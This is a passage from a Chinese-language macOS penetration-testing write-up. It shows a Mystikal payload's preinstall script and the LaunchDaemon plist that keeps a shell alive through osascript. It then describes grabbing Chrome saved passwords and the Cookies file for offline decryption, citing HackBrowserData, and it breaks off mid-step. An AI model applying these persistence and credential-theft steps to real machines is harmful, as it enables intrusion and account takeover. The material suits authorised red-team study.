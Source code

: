 而Mystikal生成的shell上线后会落地一个plist到用户的/Library/LaunchDaemons/com.simple.agent.plist位置

可以回头看一下Mystikal生成的payload里的preinstall

```
#!/bin/bash
cp files/com.simple.plist "/Library/LaunchDaemons/com.simple.agent.plist"
cp files/SimpleStarter.js "/Library/Application Support/SimpleStarter.js"
exit 0
```

可以看到其实就是将用于权限维持和拉起shell的com.simple.plist移到LaunchDaemons中用于持久化

在看下com.simple.plist

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.simple.agent</string>
    <key>ProgramArguments</key>
    <array>
    <string>osascript</string>
    <string>/Library/Application Support/SimpleStarter.js</string>
    </array>
    <key>KeepAlive</key>
    <true/>
</dict>
</plist>
```

简单明了,就是调用osascript运行本地的js

这里在科普下`LaunchAgents`和`LaunchDaemons`2种方式的区别,就是`LaunchAgents`是普通用户，`LaunchDaemons`是root用户

---

## 后渗透

上线后就需要进行后渗透了，包括信息收集、凭证抓取、横向操作等等

### 浏览器信息抓取

这里参考**HackBrowserData项目**和网上类似功能的脚本手动来抓取目标主机chrome浏览器的信息

- https://github.com/moonD4rk/HackBrowserData

首先mac下获取chrome储存的浏览器密码，需要Login Data和 Login Data 的加密密钥，加密密钥存在钥匙串中。

下载 `~/Library/Application Support/Google/Chrome/Default/Cookies` 并在离线状态下解密文件。

```
# 查看下这个文件
file ~/Library/Application\ Support/Google/Chrome/Default/Cookies

下载到本地
```

